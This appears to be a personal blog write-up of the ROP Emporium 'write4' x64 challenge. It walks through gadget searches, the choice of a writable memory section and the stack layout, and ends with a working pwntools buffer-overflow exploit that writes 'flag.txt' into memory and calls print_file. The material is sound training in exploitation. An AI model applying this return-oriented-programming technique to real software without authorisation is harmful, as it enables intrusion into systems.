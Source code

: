 
---
layout: post
title: ROP x64 Challenge 4
status: in progress
type: post
published: false
comments: true
date: 2022-07-13
---
## Challenge 4


Once more into the breach with these rop exploits friends. We have a pretty simular situation to the 2nd challenge.

> **Important!**  
A PLT entry for a function named print_file() exists within the challenge binary, simply call it with the name of a file you wish to read (like "flag.txt") as the 1st argument.

All we need to do is call the print_file function with the first argument being a pointer to a string containing "flag.txt". The one problem is a complete lack of that string in the binary. I used `strings` and `rabin2` to attempt to find them and found nothing.

Now considering this challenge is called write4 and it has a whole section on how to write to memory in the challenge description, I deduced I needed to write that string into memory. The challenge sudgests looking for something in the form `mov [reg], reg` so that's what I did.

```

pwndbg> ropper -- --search "mov [???],???
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov [???],???

[INFO] File: /root/working/write4/write4_64/write4
0x0000000000400629: mov dword ptr [rsi], edi; ret; 
0x0000000000400628: mov qword ptr [r14], r15; ret; 

```
and look at that. I found 2 gadgets that might work. Now, I'd rather work with moving as much data at once which means using the r15 (8 bytes) rather then the edi (4 bytes), so that's the one I looked for first. 

```
pwndbg> ropper -- --search "pop r14"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r14

[INFO] File: /root/working/write4/write4_64/write4
0x0000000000400690: pop r14; pop r15; ret; 
```

This provides a perfect gadget to populate the write gadgets with whatever value we want. 

The question now is where to write our string to the binary. So we are going to use the `vmmap` cmd to look at what parts of the memory is writable

```
Looking at the perms on parts of the code we see the following areas are able to be written to
nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
18  0x00000df0    0x8 0x00600df0    0x8 -rw- .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- .got
22  0x00001000   0x28 0x00601000   0x28 -rw- .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- .data
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss
```

Note: the above is trimmed to only show the writable sections

The string is "flag.txt" which is 9 bytes long (including the null byte) which gets rid of a couple of the sections. So I chose the .data section of the binary to write into. 

The last gadget we'll need is something to control rdi for the parameter pass to the print_file

```
pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/write4/write4_64/write4
0x0000000000400693: pop rdi; ret; 
```

Finally let's find the print_file function mentioned in the description.
```
disass print_file
Dump of assembler code for function print_file@plt:
   0x0000000000400510 <+0>:     jmp    QWORD PTR [rip+0x200b0a]        # 0x601020 <print_file@got.plt>
   0x0000000000400516 <+6>:     push   0x1
   0x000000000040051b <+11>:    jmp    0x4004f0
End of assembler dump.
```

Now with all of the information let's craft our stack layout. 

```
         | stack          |
         | -------------- |
32 bytes | start buffer   |
8  bytes | base pointer   | 
8  bytes | pop_r gadget   | # gadget to get values into r14 and r15
8  bytes | write loc      | # place location to write into r14
8  bytes | "flag.txt"     | # 1st 8 bytes of the string
8  bytes | write gadget   | # gadget to write into memory
8  bytes | pop_r gadget   | # do all of that again for the final null byte
8  bytes | "\x00"         | #     Note: bytes after may be init to null 
8  bytes | write loc + 8  | #           so you don't have to do this one
8  bytes | write gadget   |
8  bytes | pop_rdi gadget | # place location of the sring in rdi for 1st param
8  bytes | write loc      | 
8  bytes | print_file loc | # call function to win
8  bytes | -------------- |

```


Coded up this gives the following exploit.

```python
#!/usr/bin/python3

from pwn import *

pop_gaget       = p64(0x0000000000400690)
write_gaget     = p64(0x0000000000400628)
pop_rdi         = p64(0x00400693)
write_loc       = 0x601028
print_file      = p64(0x00400510)
back_junk       = b"B" * 20

# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xc0deba5e)*2


"""
Place a string (1st arg) into the location
given by the 2nd arg. Note the 2nd arg should be 
packed
"""
def string_place(write_string, write_start):
        returnPayload = b""
        for i in range(0, len(write_string), 8):
                returnPayload += pop_gaget
                #destination
                returnPayload += p64( write_start+ (i))
                temp = write_string[i:i+8] 
                temp += b"\x00" * ( 8 - len(temp) )
                returnPayload += temp
                returnPayload += write_gaget

        return returnPayload

"""
Place the value for the first args of a function
"""
def first_arg(var):
        returnPayload = pop_rdi
        returnPayload += p64(var)
        return returnPayload


io = process('./write4')

# This is the vaddr of system
# First return to the location of the pop rdi
# 4   0x00400510 GLOBAL FUNC       print_file
#Fill up the buffer and the base pointer
payload = junk + new_bp

payload += string_place(b"flag.txt", write_loc)

# This is the vaddr of system
# First return to the location of the pop rdi
payload += first_arg(write_loc)
payload += print_file

payload += back_junk

print("The payload is:")
print(payload)
print("Payload size is:" + str(len(payload)))
input("Hit enter to apptempt exploit")

print(io.clean(0.5).decode("utf-8"))
io.send(payload)
input("exploit sent hit enter to end")
print(io.clean(0.5).decode("utf-8"))

sleep(1)

f = open('./payload', 'wb')
f.write(payload)
f.close()

```

Note: I started writing my exploits into files for easier debugging in gdb. Before I would run the exploit and then attach gdb for debugging with `gdb -p $pid` but now I can just do `r < ./payload` within gdb which is nice

